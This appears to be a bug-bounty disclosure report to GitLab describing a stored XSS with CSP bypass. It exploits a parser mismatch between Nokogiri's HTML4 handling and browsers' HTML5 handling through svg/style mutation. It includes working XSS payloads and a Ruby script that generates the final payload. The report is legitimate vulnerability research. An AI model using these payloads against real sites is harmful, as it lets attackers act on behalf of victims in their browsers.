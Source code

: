 The backend parses HTML by using Nokogiri with HTML4 format. HTML4 accepts only space characters between tag name and the attribute. Howeverthe browser supports HTML5 which tolerate some additional characters, such as `/`.

For example, this snippet `<img/src="0"onerror="alert(0)">` will give different result:
- `<img>` at the backend {F2868308}
- `<img src="0" onerror="alert(0)">` at the browser

As we can inject any tag, we use `<style>` to keep inside the snippet which will be sent to browser as-is:

```html
<style><img/src="0"onerror="alert(0)"></style>
```

Finally, to be able to get the `<img>` tag back, we put all of them inside `<svg>` tag:

```html
<svg><style><img/src="0"onerror="alert(0)"></style></svg>
```

At the browser, the`<img>` tag  is mutated to get outside of `<svg>` context. Thus we get the following result:

```html
<svg><style></style></svg>
<img src="0" onerror="alert(0)">
```

Until here, we can inject any tag with any attribute. By using the basic payload `<i class=gl-show-field-errors><input title="<script>alert(document.domain)</script>"/></i>` we can get XSS.

## payload

This is a small Ruby snippet to generate the payload:

```ruby
def gen_payload( payload, based_url: "https://gitlab.com/gitlab-org/gitlab/-/issues/428268")
  payload    = "#{payload}#{based_url}" unless payload.include? based_url
  payload    = payload.gsub('<', '&lt;').gsub('>', '&gt;')

  es_payload = %(*<i><a href="http:#{ payload.gsub('"','&quot;') }" class="gfm">a</a></i>)
  es_payload = CGI.escape_html( es_payload ).gsub('%20', '%2520') #double encode space/tab/new_line

  a = %(<dl><a href="#{ based_url }#{ es_payload }">#{ based_url }*<i>[[a|http:#{ payload }]]</i></a></dl>)
  puts a
end

gen_payload %('"><svg><style>dl{visibility:hidden}<i/class=gl-show-field-errors><input/title="<script>alert(document.domain)</script>"/></style></svg>)
```

Best regards,
yvvdwf

## Impact

Stored-XSS with CSP-bypass allows attackers to execute arbitrary actions on behalf of victims at the client side.

## Attachments
- _sidebar.md
- 0.sidebar.png
- 2.breakdown.png
- 1.disclosure.png
- nokogiri-html4.png
